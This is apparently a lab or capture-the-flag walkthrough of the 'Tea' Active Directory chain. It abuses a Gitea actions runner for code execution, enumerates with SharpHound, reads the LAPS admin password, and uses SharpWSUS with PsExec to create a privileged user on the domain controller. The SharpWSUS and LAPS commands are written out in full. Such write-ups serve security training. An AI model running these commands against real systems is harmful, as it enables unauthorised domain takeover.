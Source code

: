 # Tea (chain) (medium)

## port scan

10.10.178.198 srv.tea.vl
10.10.178.197 dc.tea.vl

![](<tea(chain)(medium)/walkthrough_20240413120505926.png>)

## service enumeration

![](<tea(chain)(medium)/walkthrough_20240413113404118.png>)

![](<tea(chain)(medium)/walkthrough_20240413113522341.png>)

![](<tea(chain)(medium)/walkthrough_20240413113553212.png>)

register a account, we can found a runner `SRV`

![](<tea(chain)(medium)/walkthrough_20240413113712898.png>)

## gitea runner abuse

so there have a runner, we will create a action let runner execute our evil code

![](<tea(chain)(medium)/walkthrough_20240413114809492.png>)

i will create a new repo with `.gitea/workflows/demo.yaml`

![](<tea(chain)(medium)/walkthrough_20240413114735058.png>)

add our evil job

![](<tea(chain)(medium)/walkthrough_20240413115436208.png>)

push!

![](<tea(chain)(medium)/walkthrough_20240413115806546.png>)

after push, we must enable actions at our repo

![](<tea(chain)(medium)/walkthrough_20240413115922959.png>)

just commit again with every change

![](<tea(chain)(medium)/walkthrough_20240413120135855.png>)

it works now

![](<tea(chain)(medium)/walkthrough_20240413120050458.png>)

we have a beacon!

![](<tea(chain)(medium)/walkthrough_20240413120108857.png>)

![](<tea(chain)(medium)/walkthrough_20240413120429876.png>)

## some enumeration

![](<tea(chain)(medium)/walkthrough_20240413123104618.png>)

![](<tea(chain)(medium)/walkthrough_20240413123224254.png>)

![](<tea(chain)(medium)/walkthrough_20240413123411154.png>)

![](<tea(chain)(medium)/walkthrough_20240413123426608.png>)

```bash
dotnet inline-execute /home/sh4n4c1/.sliver-client/aliases/sharp-hound-4/SharpHound.exe --zippassword backup123 --outputdirectory C:\windows\tasks
```

![](<tea(chain)(medium)/walkthrough_20240413125228716.png>)

![](<tea(chain)(medium)/walkthrough_20240413125603400.png>)

![](<tea(chain)(medium)/walkthrough_20240413125828982.png>)

![](<tea(chain)(medium)/walkthrough_20240413125953931.png>)

![](<tea(chain)(medium)/walkthrough_20240413130950135.png>)

![](<tea(chain)(medium)/walkthrough_20240413131822802.png>)

## read LAPS

in \_instal folder, there have a laps installer

![](<tea(chain)(medium)/walkthrough_20240413132909413.png>)

we can use `Get-LapsADPassword -Identity SRV -AsPlainText` read administrator password

![](<tea(chain)(medium)/walkthrough_20240413134516003.png>)

work

![](<tea(chain)(medium)/walkthrough_20240413134533715.png>)

## WSUS abuse

ther have a folder called `WSUS-Updates`

![](<tea(chain)(medium)/walkthrough_20240413134622113.png>)

get a administrator beacon and run sharpwsus inspect

![](<tea(chain)(medium)/walkthrough_20240413141221853.png>)

it show srv is wsus server, we can use

https://github.com/techspence/SharpWSUS to abuse wsus

we will push psexec (just allow ms sign), and add a user

```bash
C:\_install\SharpWSUS.exe create /payload:"c:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \"net user shanacl Password123! /add\""
```

![](<tea(chain)(medium)/walkthrough_20240413153120191.png>)

then approve the request

```bash
C:\_install\SharpWSUS.exe approve /updateid:57d84ee8-c48d-41da-839b-200002f56996 /computername:dc.tea.vl /groupname:"pepepe"
```

![](<tea(chain)(medium)/walkthrough_20240413153212894.png>)

it works

![](<tea(chain)(medium)/walkthrough_20240413162055156.png>)

and the user at there

![](<tea(chain)(medium)/walkthrough_20240413162037905.png>)

now try again to add our evil user into administrators group

![](<tea(chain)(medium)/walkthrough_20240413162242774.png>)

![](<tea(chain)(medium)/walkthrough_20240413162342199.png>)

administrator shell!

![](<tea(chain)(medium)/walkthrough_20240413162820642.png>)
